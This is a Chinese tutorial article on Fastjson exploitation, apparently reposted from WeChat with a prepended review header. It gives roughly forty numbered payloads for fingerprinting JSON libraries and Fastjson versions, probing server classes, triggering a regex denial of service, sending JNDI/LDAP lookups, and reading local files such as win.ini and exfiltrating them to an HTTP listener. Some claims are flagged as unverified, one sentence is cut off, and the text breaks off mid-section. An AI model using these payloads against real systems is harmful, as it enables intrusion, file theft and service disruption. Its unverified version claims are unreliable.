## 核对与使用边界

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Various1.1.x/1.2.x/2.0.x through2.0.40; distinct parse overloads and dependency versions, IO2.0–2.6 versus2.7–2.8; demonstration controller modified to echo results/errors

代码与实验材料：51 numbered vectors, explicit failed lab cases and sources, blind BOM variants, file-write buffering limits; extensive screenshot evidence not inspected; fixed matrix absent

来源证据范围：Author W01fh4cker repository and credited primary researchers, official issue4451, BlackHat PDF and original WeChat; derivative snippets need exact revision

- **代码与转录边界（1）**：Version metadata is code; syntax/unknown-field/absence-of-DNS fingerprints overstated as uniquely identifying library/version。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **证据待核（2）**：Form/query binding behavior is not evidence about JSON decoder；依据：JSON extra-member test replaced by /doLogin?username... query parameters。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **证据待核（3）**：DoS does not imply RCE and negative OOB evidence needs baseline/retry controls；依据：DoS delay means likely system control; no callback means BOM match。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（4）**：MarshalOutputStream onlyCentOS claim should be JDK build/parameter metadata; shown Inflater input looks plain base64 rather than compressed bytes; Windows path in CentOS-only example。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（5）**：Incomplete sentence 该payload只适用于; incompatible2.0.1 interval overlap; widespread escaped braces; no current remediation。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 【两万字】零基础学 Fastjson 提高篇（一）

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/mKyFECs1M96G86jIcWpXzQ)

零、写在前面的话
========

0.1 前言
------

在我刚接触`Java`安全的时候，我写过一篇零基础入门级别的文章：

> 【两万字原创长文】完全零基础入门 Fastjson 系列漏洞（基础篇） https://mp.weixin.qq.com/s/SOKLC_No0hV9RhAavF2hcw

现在距离这篇文章的写作时间已经过去整整半年，该写写他的提高篇了。基础篇发布后，很多师傅在朋友圈发表了留言，有不少师傅提出了宝贵而真挚的建议，也有师傅（@Y1ngSec、@lenihaoa）指出我文章的不足，我在此再次表示诚挚的感谢。后来我在准备写 fastjson 漏洞利用提高篇的时候发现，网上的一些 payload 总结要么是东一块西一块很零散，要么就是没有经过仔细的校对（一些`payload`的注释的利用范围明显是错的，另一些给出的`payload`本身就是错的），要么就是说明很简短，让新手看了一头雾水不知道具体出现什么情况才是正确的。为了方便自己平时查阅利用，也为了尽量修复以上的问题，我写下了这篇文章。不过需要注意的是，这篇文章是总结性质的，是从`1`到`n`的，并非从`0`到`1`，所有我参考过的文章我都会列在文章末尾以表示感谢。

如果你觉得代码复制的不方便，可以去我的 github 上面下载 markdown 文件：

https://github.com/W01fh4cker/LearnFastjsonVulnFromZero-Improvement

0.2 准备工作
--------

我这里大部分直接使用`safe6Sec`师傅制作的复现环境（如果需要使用其他的靶场我会单独说明）：

```
git clone https://github.com/safe6Sec/ShiroAndFastJson.git


```

我修改了`IndexController.java`文件中的`parse`函数，方便我查看解析结果或者解析报错内容：

```
@PostMapping("/json")
@ResponseBody
public JSONObject parse(@RequestBody String data) {
    JSONObject jsonObject = new JSONObject();
    try {
        jsonObject.put("status", 0);
        jsonObject.put("message", String.valueOf(JSON.parse(data)));
    } catch (Exception e) {
        jsonObject.put("status", -1);
        jsonObject.put("error", e.getMessage());
    }
    return jsonObject;
}


```

接下来，如果不做特别说明的话，我都是向`json`接口进行`post`请求`payload`。

一、判断所使用的 Json 库
===============

需要注意的是，以下大部分都是在没有报错返回的情况下利用的方法，个别的我会做出说明。

1.1 Fastjson
------------

### 1.1.1 dnslog 判断法

`payload1`：

```
{"@type":"java.net.InetSocketAddress"{"address":,"val":"rtpmognpiy.dgrh3.cn"\}\}


```

`payload2`：

```
\{\{"@type":"java.net.URL","val":"http://qvhkmkgcta.dgrh3.cn"}:"a"}


```

如果以上`payload`正常返回并受到`dnslog`请求，说明目标使用的是`fastjson`框架。

### 1.1.2 解析判断法

`payload3`：

```
{"ext":"blue","name":{"$ref":"$.ext"\}\}


```

如果解析成功，那么说明目标使用的是`fastjson`：至于这个下面的这个`payload4`，需要根据具体环境参数来修改，不可直接使用：

```
{"a":new a(1),"b":x'11',/*\*\/"c":Set[{}{}],"d":"\u0000\x00"}


```

本意就是如果能对上面的参数的值自动解析，说明使用了`fastjson`组件：`payload5`：

```
{"@type": "whatever"}


```

如果对方的代码写的是像我这样显示报错内容的话，可以通过这个来判断（出现`autoType is not support. whatever`说明使用了`fastjson`），但是一般不会，所以实战中基本上用不到：

1.2 jackson
-----------

### 1.2.1 浮点类型精度丢失判断法

如果对方传入的参数中存在一个`double`类型的（比如说年龄），我们就可以利用这个方法来判断。正常传参：

```
{"score": 1}


```

`payload6`：

```
{"score": 1.1111111111111111111111111111111111111111111111111111111111111}


```

如果返回结果是类似`1.1111111111111112`这种，那么就说明使用的可能是`jackson`（`fastjson`如果不加`Feature.UseBigDecimal`这个参数，也会丢失精度；`gson`也是会丢失精度的；因此可以继续利用前面的`payload`来进一步区分`fastjson`、`jackson`和`gson`）：

### 1.2.2 注释符判断法

`payload7`：

```
{"age": 1}/*#W01fh4cker


```

如果不报错，说明使用的是`jackson`：

### 1.2.3 单引号判断法

正常传参：

```
{"username": "admin", "password": "admin"}


```

`payload8`：

```
{"username": 'admin', "password": 'admin'}


```

如果改成单引号，报错如上，那么就是`jackson`。`fastjson`是不报错的：

### 1.2.4 多余类成员判断法

正常传参：

```
{"username": "admin", "password": "admin"}


```

`payload9`：

```
{"username": "admin", "password": "admin", "test": 1}


```

如果报错如下，则说明是`jackson`：`fastjson`是不会报错的，这里我们请求`doLogin`路由来验证：

```
POST /doLogin?username=admin&password=admin&test=1&rememberme=remember-me HTTP/1.1
Host: 10.0.47.4:8888
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=8D9951E527FEE008DB7B874D70636D86
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36


```

image.png

1.3 gson
--------

### 1.3.1 浮点类型精度丢失判断法

在`1.2.1`中我们已经讨论过了，在此不做赘述。

### 1.3.2 注释符判断法

`payload10`：

```
#\r\n{"score":1.1}


```

正常说明为`gson`。

1.4 org.json
------------

`payload11`：

```
{"username": '\r', "password": "admin"}


```

出现如上报错，说明使用的是`org.json`，这个就需要能看到报错的内容了。

1.5 hutool.json
---------------

`payload12`：

```
{a:whatever}/*\r\nxxx


```

如果返回正确（最好是能看到返回的值为`{"a":"whatever"}`），说明使用的是`hutool.json`：

二、判断 fastjson 版本
================

2.1 有报错信息返回的情况
--------------

开发人员如果对异常信息处理不当，就给了我们有机可乘的机会，以下是一些常用的在有报错信息返回的情况下的判断`fastjson`版本的方法。`payload13`：

```
{"@type":"java.lang.AutoCloseable"


```

`payload14`：

```
["test":1]


```

这里我们使用浅蓝师傅的靶场：

> https://github.com/iSafeBlue/fastjson-autotype-bypass-demo

需要说明的是，该 payload 只适用于 至于`["test":1]`这个`payload`，我在该靶场没有测试成功；我后来自己写了个`demo`，测试成功，大家也可以自行测试：对于`payload13`的报错情况，我们还可以细分。如果代码在写的时候几乎没有做任何异常处理（这种情况挺少见的），那么我们根据报错的代码出错点很快就可以判断出对方使用的是`parseObject`还是`parse`来处理数据的；否则我们只能根据有限的返回的报错信息来判断：

### 2.1.1 JSON.parseObject(jsondata, User.class)

#### 2.1.1.1 判断 1.1.15<=version<=1.1.26

报错：

```
syntax error, expect {, actual EOF


```

#### 2.1.1.2 判断 1.1.27<=version<=1.2.11

报错会显示错误的行数：

```
syntax error, expect {, actual EOF, pos 9


```

#### 2.1.1.3 判断 1.2.12<=version<=1.2.24

报错：

```
type not match


```

#### 2.1.1.4 判断 1.2.25<=version<=2.0.1

报错（后面接具体的类）：

```
type not match. java.lang.AutoCloseable -> org.example.Main$User


```

其中，`fastjson2`以后，都会多一处报错，后面的情况也是一样的：

```
Caused by: com.alibaba.fastjson2.JSONException...


```

#### 2.1.1.5 判断 2.0.1<=version<=2.0.5.graal 以及 2.0.9<=version<=2.0.12

报错**类似**如下：

```
error, offset 35, char 


```

#### 2.1.1.6 判断 2.0.6<=version<=2.0.7

报错：

```
illegal character 


```

#### 2.1.1.7 判断 2.0.8 以及 2.0.13<=version<=2.0.40（我写这篇文章的时候的最新版本）

报错内容中会直接显示当前版本的版本号，很方便：

```
illegal character , offset 35, character , line 1, column 35, fastjson-version 2.0.8 {"@type":"java.lang.AutoCloseable"


```

### 2.1.2 JSON.parse(jsonData);

#### 2.1.2.1 判断 1.1.15<=version<=1.1.26

报错：

```
syntax error, expect {, actual EOF


```

#### 2.1.2.2 判断 1.1.27<=version<=1.2.32

报错类似如下：

```
syntax error, expect {, actual EOF, pos 0


```

#### 2.1.2.3 判断 1.2.33<=version<=2.0.40

报错中都会直接显示版本号：`fastjson1`中显示如下：

```
syntax error, expect {, actual EOF, pos 0, fastjson-version 1.2.83


```

`fastjson2`中显示如下：

```
Illegal syntax: , offset 34, character  , line 1, column 35, fastjson-version 2.0.40 {"@type":"java.lang.AutoCloseable"


```

但是需要注意的是`1.2.76<=version<=1.2.80`的时候，显示的版本都是`1.2.76`，原因是作者写死在代码里了，我提了个`issue`（https://github.com/alibaba/fastjson/issues/4451）： 

2.2 dnslog 判断法
--------------

**特别说明：**`dns`能出网并不代表存在`fastjson`漏洞！！！另外，讨论`1.2.24`以前的版本没什么意义，因此基本不会在下文中涉及。

### 2.2.1 判断 1.1.15<=version<=1.2.24

正常传参：

```
{"name":"admin","email":"admin","content":"admin"}


```

`payload15`：

```
{"name":"admin","email":"admin","content":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://aclarecpsj.dgrh3.cn/POC","autoCommit":true\}\}


```



### 2.2.2 判断 1.2.37<=version<=1.2.83

`payload16`：

```
\{\{"@type":"java.net.URL","val":"http://rpdmvyfajp.dgrh3.cn"}:"aaa"}


```

### 2.2.3 判断 1.2.9<=version<=1.2.47

`payload17`：

```
{"username":{"@type":"java.net.InetAddress","val":"bjmgclhjrs.dgrh3.cn"}, "password":"admin"}


```

需要注意，有时候会报错如下，但是`dnslog`仍然会收到请求，这个是目标服务器的问题，多试就可以了：

```
deserialize inet adress error


```

### 2.2.4 判断 1.2.10<=version<=1.2.47

`payload18`：

```
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"6m2csu.dnslog.cn"\}\}]


```

除非对方有以下代码，否则`1.2.47`以后的版本都会报错：

```
ParserConfig.getGlobalInstance().addAccept("java.lang.Class");
ParserConfig.getGlobalInstance().addAccept("java.io.ByteArrayOutputStream");


```

### 2.2.5 判断 1.2.9<=version<=1.2.36

`payload19`：

```
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://tbqnrzguzp.dgrh3.cn"\}\}""}


```

如果不报错、`dnslog`**无响应**，说明版本处于`1.2.9`至`1.2.36`。

### 2.2.6 判断 1.2.37<=version<=1.2.83

还是上面的`payload19`，如果`dnslog`有响应，说明处于`1.2.37`和`1.2.83`之间。

### 2.2.7 判断 1.2.9<=version<=1.2.83

`payload20`：

```
Set[{"@type":"java.net.URL","val":"http://wobfyhueao.dgrh3.cn"}]


```

### 2.2.8 判断 version≠(1.2.24 || 1.2.83)

`payload21`：

```
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.Exception","@type":"org.XxException"\}\\}\}


```

只有`1.2.25<=version<=1.2.80`的时候会报错，其他情况包括`1.1`和`2.0`的版本都是不会报错的。

### 2.2.9 判断 1.2.69<=version<=1.2.83

`payload22`：

```
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"\}\\}\}


```

如果报错（`autoType is not support. java.io.ByteArrayOutputStream`），说明版本处于`1.2.69`和`1.2.83`之间；如果不报错，说明处于`1.2.24`到`1.2.68`之间。

### 2.2.10 判断 1.2.48<=version<=1.2.83

`payload23`：

```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl"\}\}


```

大部分情况下，如果报错，说明版本处于`1.2.48`到`1.2.83`，但是有时候也可能因为环境本身而出现奇奇怪怪的问题，比如我这里`1.2.24`也报错，只是报错内容不同：`1.2.47`也报错，报错内容和前两者都不同：由于我们不知道报错的详细信息，因此感觉不能作为一个精确判断的方法。我后来又拿之前的`demo`进行测试，发现符合结论，师傅们利用的时候须要注意。

### 2.2.11 判断 version=1.2.24

`payload24`：

```
{"zero": {"@type": "com.sun.rowset.JdbcRowSetImpl"\}\}


```

按照`@kezibei`师傅给出的结论，这个`payload`只有`1.2.24`是不报错的，但是我本地靶场环境`1.2.24`也报错，只是和其他版本的不同：我又拿`demo`测试了下，发现符合结论：

2.3 延迟判断法
---------

### 2.3.1 浅蓝正则 ddos 探测法：1.2.36<=version<=1.2.63_noneautotype

`payload25`：

```
{"regex":{"$ref":"$[blue rlike '^[a-zA-Z]+(([a-zA-Z ])?[a-zA-Z]*)*$']"},"blue":"aaa!"}


```

该`payload`慎用，可能会影响业务系统，实战中应当逐步加`a`，不要一上来就输入一堆`a`。有延迟，说明版本处于`1.2.36`和`1.2.63_noneautotype`之间。尽管需要慎用，但是该`payload`的魅力还是很大的，一旦成功说明该系统很有可能可以拿下该系统权限。

### 2.3.2 jndi 请求延迟探测法

**Tips：**可以在`ldap://ip`后面加上端口，这样就可以探测内外端口开放情况了，类似`ssrf`。

#### 2.3.2.1 判断 1.2.4<=version<=1.2.47

`payload26`（组合拳）：

```
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://1.2.3.4/test111","autoCommit":true\}\}


```

```
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1/test111","autoCommit":true\}\}


```

先用第一个，再用第二个，如果第一个响应时间很长，而第二个较短，则说明版本：

#### 2.3.2.2 判断 1.1.16<=version<=1.2.24

`payload27`（组合拳）：

```
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true\}\}


```

```
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true\}\}


```

和`payload26`一样，如果下面的比上面的响应快说明版本处于`1.1.16`和`1.2.24`之间；`1.1.15`我本地测试的时候响应很快但是报错`Duplicate field name "matchColumn_asm_prefix__" with signature "[C" in class file Fastjson_ASM_JdbcRowSetImpl_1`。

#### 2.3.2.3 变种：判断 1.1.16<=version<=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload27`还有变种。`payload28`（组合拳）：

```
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC", "autoCommit":true\}\}""}


```

```
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC", "autoCommit":true\}\}""}


```

如果下面比上面响应快，说明版本处于`1.1.16`和`1.2.11`之间。

#### 2.3.2.4 判断 1.2.28<=version<=1.2.47

`payload29`（组合拳）：

```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true\}\}


```

```
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true\}\}


```

如果下面比上面响应快，说明版本处于`1.2.28`和`1.2.47`之间。

#### 2.3.2.5 变种：判断 1.2.9<=version<=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload29`还有变种。`payload30`（组合拳）：

```
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true\}\}


```

```
{"@type":"com.alibaba.fastjson.JSONObject","a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true\}\}


```

如果下面比上面响应快，说明版本处于`1.2.9`和`1.2.11`之间。

2.4 关键版本探测
----------

### 2.4.1 v1.2.24

直接用`2.3`中所提到的延时判断方法即可。

### 2.4.2 v1.2.47

`payload31`：

```
{"username":{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"\}\\}\}


```

或者：

```
[{"@type": "java.lang.Class","val": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val":"rylxkswlfg.dgrh3.cn"\}\}]


```

都是可以的：

### 2.4.3 v1.2.68

`payload32`：

```
[{"@type": "java.lang.AutoCloseable","@type": "java.io.ByteArrayOutputStream"},{"@type": "java.io.ByteArrayOutputStream"},{"@type": "java.net.InetSocketAddress"{"address":,"val": "mwhajokbdd.dgrh3.cn"\}\}]


```



### 2.4.4 v1.2.80 与 v1.2.83

需要准备两个`dnslog`地址，我这里`yakit`上开一个`dnslog.cn`开一个。`payload33`：

```
[{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","x": {"@type": "java.net.InetSocketAddress"{"address":,"val": "xfjdbd.dnslog.cn"\}\\}\},{"@type": "java.lang.Exception","@type": "com.alibaba.fastjson.JSONException","message": {"@type": "java.net.InetSocketAddress"{"address":,"val": "uawcowbohf.dgrh3.cn"\}\\}\}]


```

如果第一个收到响应而第二个没有收到，说明版本为`1.2.80`：如果两个都收到了，说明版本是`1.2.83`：

三、探测服务器环境
=========

3.1 空值判断法
---------

待探测列表如下：

```
org.springframework.web.bind.annotation.RequestMapping
org.apache.catalina.startup.Tomcat
groovy.lang.GroovyShell
com.mysql.jdbc.Driver
java.net.http.HttpClient


```

`payload34`：

```
{"z": {"@type": "java.lang.Class","val": "org.springframework.web.bind.annotation.RequestMapping"\}\}


```

如果系统存在这个类，会返回一个类实例；如果不存在会返回`null`。例如：

3.2 dnslog 回显判断法
----------------

`payload35`：

```
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"\}\},"country":"aaa.qmc8xj4s.dnslog.pw"\}\\}\}


```

只有`MacOS`可以`ping`带花括号的域名，`Linux`和`Windows`会报错，所以该`payload`需要特定环境才可以。

3.3 报错回显判断法
-----------

`payload36`：

```
{"x": {"@type": "java.lang.Character"{"@type": "java.lang.Class","val": "com.mysql.jdbc.Driver"\}\}


```



四、文件读取
======

4.1 fastjson【1.2.73<=version<=1.2.80】
-------------------------------------

### 4.1.1 aspectjtools

#### 4.1.1.1 直接回显法

`payload37`（组合拳）：可以分三次打：

```
{
    "@type":"java.lang.Exception",
    "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"
}


```

```
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\}


```

```
{
    "username":{
        "@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit",
        "@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit",
        "fileName":"c:/windows/win.ini"
    },
    "password":"admin"
}


```

也可以直接利用`JSON.parse`可以解析`[]`的特性直接一次打：

```
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"},"password":"admin"}]


```



#### 4.1.1.2 报错回显法

`payload38`：

```
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\},{"username":{"@type":"java.lang.Character"{"c":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"c:/windows/win.ini"\}\},"password":"admin"}]


```



#### 4.1.1.3 dnslog 回显法（需要对方为 mac 环境且 dnslog 平台支持特殊符号）

`payload39`：

```
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"1.txt"},"password":{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aaa.qmc8xj4s.dnslog.pw"\}\}\}\}]


```

但是只有`mac`才支持`ping`带花括号的域名，所以我`Windows`这里会提示`deserialize inet adress error`：



#### 4.1.1.4 httplog 回显法（另需 ognl>=2.7 以及 commons-io>=2.0）

分两次打。

`payload40`（组合拳）：

```
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]


```

```
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""\}\},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Windows/win.ini"}]\}\\}\},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36]}]\}\}\}\},"su17":{"$ref":"$.su16.node.p.stream"},"su18":{"$ref":"$.su17.bOM.bytes"\}\}


```

我这里实际测试过程中，文件中有中文字符的时候出现了乱码：



我的解决方法是，使用`yakit`的端口监听器：



`yakit`真是太好用了，有木有~

### 4.1.2 aspectjtools+xalan（>=2.4.0）+dom4j（版本无限制）

#### 4.1.2.1 直接回显法

分五次打，中间报错不用管。

`payload41`（组合拳）：

```
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]\}\\}\},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]


```

```
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}


```

```
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{\}\}\}\}


```

```
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"\}\}\}\}\}\\}\}


```

```
{"su15":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]\}\}


```



#### 4.1.2.2 httplog 回显法

修改`4.1.2.1`中最后一步为如下`payload`：

```
